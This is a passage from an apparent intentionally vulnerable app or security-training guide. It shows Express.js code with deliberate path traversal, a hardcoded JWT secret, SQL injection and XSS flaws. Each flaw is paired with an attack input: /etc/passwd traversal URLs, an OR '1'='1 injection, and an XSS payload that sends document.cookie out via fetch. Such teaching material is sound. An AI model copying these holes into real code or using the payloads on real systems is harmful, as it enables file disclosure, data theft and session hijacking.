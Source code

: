 ### 6. Path Traversal
```javascript
app.get('/download', (req, res) => {
    const filename = req.query.file;
    res.sendFile(path.join(__dirname, 'uploads', filename));
});

// Attack
http://localhost:3003/download?file=../../../../etc/passwd
http://localhost:3003/download?file=..%2F..%2F..%2Fetc%2Fpasswd
```

### 7. JWT Secret Weakness
```javascript
// Weak/hardcoded secret
const JWT_SECRET = 'secret123';

// Or using default/predictable secret
jwt.sign(payload, process.env.JWT_SECRET || 'default');

// Attack - Forge tokens
// Use jwt.io with known secret
```

### 8. SQL Injection (with SQL databases)
```javascript
// If using SQL
app.get('/users', (req, res) => {
    const query = `SELECT * FROM users WHERE name = '${req.query.name}'`;
    db.query(query, (err, results) => {
        res.json(results);
    });
});

// Attack
http://localhost:3003/users?name=' OR '1'='1
```

### 9. Cross-Site Scripting (XSS)
```javascript
// Reflected XSS
app.get('/search', (req, res) => {
    res.send(`<h1>Search results for: ${req.query.q}</h1>`);
});

// Stored XSS in comments
app.post('/comment', (req, res) => {
    comments.push({
        text: req.body.text, // No sanitization
        user: req.user.name
    });
});

// Attack
<script>alert(document.cookie)</script>
<img src=x onerror="fetch('/steal?c='+document.cookie)">
```
